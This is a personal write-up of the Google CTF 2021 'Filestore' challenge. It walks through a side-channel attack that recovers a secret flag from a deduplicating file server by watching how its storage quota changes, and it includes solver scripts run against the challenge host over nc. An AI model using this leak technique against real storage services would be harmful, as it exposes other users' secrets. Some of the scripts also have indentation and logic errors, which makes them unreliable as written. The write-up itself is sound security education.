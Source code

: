 ```yaml
---
title: Google CTF 2021 - Filestore Challenge Writeup
author: Ashiq Amien
date: 2021-07-20 14:00:00 +0200
categories: [CTF, Misc]
tags: ctf
---
```



Filestore was a miscellaneous challenge from the [Google CTF](https://capturetheflag.withgoogle.com/). We are given the following Python file:

```python
import os, secrets, string, time
from flag import flag


def main():
    # It's a tiny server...
    blob = bytearray(2**16)
    files = {}
    used = 0

    # Use deduplication to save space.
    def store(data):
        nonlocal used
        MINIMUM_BLOCK = 16
        MAXIMUM_BLOCK = 1024
        part_list = []
        while data:
            prefix = data[:MINIMUM_BLOCK]
            ind = -1
            bestlen, bestind = 0, -1
            while True:
                ind = blob.find(prefix, ind+1)
                if ind == -1: break
                length = len(os.path.commonprefix([data, bytes(blob[ind:ind+MAXIMUM_BLOCK])]))
                if length > bestlen:
                    bestlen, bestind = length, ind

            if bestind != -1:
                part, data = data[:bestlen], data[bestlen:]
                part_list.append((bestind, bestlen))
            else:
                part, data = data[:MINIMUM_BLOCK], data[MINIMUM_BLOCK:]
                blob[used:used+len(part)] = part
                part_list.append((used, len(part)))
                used += len(part)
                assert used <= len(blob)

        fid = "".join(secrets.choice(string.ascii_letters+string.digits) for i in range(16))
        files[fid] = part_list
        return fid

    def load(fid):
        data = []
        for ind, length in files[fid]:
            data.append(blob[ind:ind+length])
        return b"".join(data)

    print("Welcome to our file storage solution.")

    # Store the flag as one of the files.
    store(bytes(flag, "utf-8"))

    while True:
        print()
        print("Menu:")
        print("- load")
        print("- store")
        print("- status")
        print("- exit")
        choice = input().strip().lower()
        if choice == "load":
            print("Send me the file id...")
            fid = input().strip()
            data = load(fid)
            print(data.decode())
        elif choice == "store":
            print("Send me a line of data...")
            data = input().strip()
            fid = store(bytes(data, "utf-8"))
            print("Stored! Here's your file id:")
            print(fid)
        elif choice == "status":
            print("User: ctfplayer")
            print("Time: %s" % time.asctime())
            kb = used / 1024.0
            kb_all = len(blob) / 1024.0
            print("Quota: %0.3fkB/%0.3fkB" % (kb, kb_all))
            print("Files: %d" % len(files))
        elif choice == "exit":
            break
        else:
            print("Nope.")
            break

try:
    main()
except Exception:
    print("Nope.")
time.sleep(1)
```

## Problem overview

Looking at the above script, we can see that we can store different chunks of data up to 64 kb. Given a file id, `fid`, we can reload the data. We can also check the status of server to see how much space was used and how many files are stored. 

The important thing to notice is to see how the data is stored and how we can save space, as noted with the comment `Use deduplication to save space`. This means that we check if the first 16 bytes of our data is already stored on the server, and then point to the longest matching prefix up to 1024 bytes. So, for example, if our server stores `[31337test42069]`, we can see that inserting the string `7test4` won't increase the usage of the server since we'll point to the beginning of the match and indicate that the length of the match is 6, from  `part_list.append((used, len(part)))`.

### Deducing the flag characters

We see that the flag is stored as the script is run on the server, leaving the server with usage `Quota: 0.026kB/64.000kB`. We know that the flag is of the form `CTF{__...__}`, meaning submitting the characters `C`, `T`, `F`, `{` or `}` won't adjust the usage of the server. We can follow the same pattern to figure out the other characters as well. For this I used the following script:

```python
print("status")
for s in string.ascii_letters+string.digits+"!@#$%^&*()_{}|~`/<>;:":
	print("store")
	print(s)	
	print("status")
print("status")
print("exit")
```

Running the script with `python script.py| nc <ctfserver> 1337 -i 1 | tee fileout.txt`, we can get the contents of the server output, including all of the different statuses between submitting different strings. To do this, check if the status does not change in between submissisons, and note the index to figure out which characters are inside the flag: 

```python
import string

s = string.ascii_letters+string.digits+"!@#$%^&*()_{}|~`/<>;:"

with open("fileout.txt","r") as fi:
    id = []
    for ln in fi:
        if ln.startswith("Quota:"):
            id.append(ln)

charlist = []
for i in range(len(id)-2):
	if id[i] == id[i+1]:
		charlist.append(s[i])
		print("found flag character: " + s[i])


print(charlist)
print(len(charlist))
```

This gives us the following set of flag characters: `['c', 'd', 'f', 'i', 'n', 'p', 't', 'u', 'C', 'F', 'M', 'R', 'T', 'X', '0', '1', '3', '4', '_', '{', '}']`. It looks right, since the letters `C`, `T`, `F`, `{` and `}`  show up. 

### Iterating the flag

Using our character list, we can start iterating the flag by seeing which character appended to `CTF{` does not increase the usage. 

```python
flaglist = ['C','T','F','{']

for i in range(16):
	os.system('python charloop.py ' + "".join(flaglist) +' | nc filestore.2021.ctfcompetition.com 1337 -i 1 | tee fileout'+str(i)+'.txt')
	with open("fileout"+str(i)+".txt","r") as fi:
	    id = []
	    for ln in fi:
		if ln.startswith("Quota:"):
		    print(ln)    	
	for i in range(len(id)-2):
		if id[i] == id[i+1]:
			flaglist.append(charlist[i+1])
			print("found flag character: " + charlist[i+1])
	print(flaglist)	
	print("".join(flaglist))
```


This iterates the first 16 characters of the flag, `CTF{CR1M3_0f_d3d`. After that, we continually match the flag since the prefix is only checked up to the first 16 chars, so any appended character to our half flag is picked up as valid. Since we know the flag ends with `}`, we can iterate backwards to find the rest of the flag.

```python
secondflaglist = ['}']

for i in range (10):
	os.system('python charloop2.py ' + "".join(secondflaglist) +' | nc filestore.2021.ctfcompetition.com 1337 -i 1 | tee secondblockfileout'+str(i)+'.txt')
	with open("secondblockfileout"+str(i)+".txt","r") as fi:
	    id = []
	    for ln in fi:
		if ln.startswith("Quota:"):
		    id.append(ln)
		    print(ln)    	
	for i in range(len(id)-2):
		if id[i] == id[i+1]:
			secondflaglist.insert(0,charlist[i])
			print("found flag character: " + charlist[i])
	print(secondflaglist)	
	print("".join(secondflaglist))
```

This gives us the remainder of the flag `up1ic4ti0n}`, and we can piece it together to submit the final flag :) 


Overall it was a tough CTF, this was the only challenge I could solve. My main takeaway is from the challenge is that I need to bump up my scripting skills, since the [actual solution](https://github.com/google/google-ctf/blob/master/2021/quals/misc-filestore/challenge/solver.py) is *much* cleaner than my solution. Big thanks to Google and the author of the challenge! :)


